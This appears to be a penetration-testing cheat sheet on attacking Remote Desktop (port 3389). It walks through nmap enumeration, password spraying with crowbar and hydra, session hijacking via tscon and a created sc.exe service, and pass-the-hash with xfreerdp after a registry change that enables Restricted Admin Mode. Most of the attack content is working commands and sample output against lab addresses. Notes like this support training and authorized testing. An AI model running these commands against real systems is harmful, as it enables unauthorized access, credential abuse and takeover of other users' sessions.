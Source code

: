 ```yaml
---
title: Port 3389 - RDP
draft: false
tags:
  - rdp
---
```

Most commonly used among administrators.

## Enumeration

```shell-session
[!bash!]# nmap -Pn -p3389 192.168.2.143 

Host discovery disabled (-Pn). All addresses will be marked 'up', and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 04:20 BST
Nmap scan report for 192.168.2.143
Host is up (0.00037s latency).

PORT     STATE    SERVICE
3389/tcp open ms-wbt-server
```

## Password Spraying
### crowbar

```shell-session
[!bash!]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

### hydra

```shell-session
[!bash!]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

## Login

```shell-session
[!bash!]# rdesktop -u admin -p password123 192.168.2.143
```


## Attacks
### RDP Session Hijacking

Let's say we have successfully log-in to RDP and we have local administrator privilege. 

We can hijack other user's session. 

To impersonate a user without their password:
- Need to have SYSTEM privilege
- Use Microsoft tscon.exe binary (tscon.exe allows users to connect to another desktop session)

First use the command `query user` and identify the ID of the use we want to impersonate. 

After identifying, impersonate:

```cmd-session
C:\Desktop> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

What if we don't have SYSTEM privilege? We can escalate our privilege using mimikatz etc or by using `sc.exe`.

```cmd-session
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

Now run below and new terminal with the lewen user session will appear:

```cmd-session
C:\htb> net start sessionhijack
```

### PtH

`Restricted Admin Mode` is needed to be enabled (disabled by default).

We can enable this by adding a new registry key `DisableRestrictedAdmin` under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`.

```cmd-session
C:\Desktop> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once it is added, log-in:

```shell-session
[!bash!]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

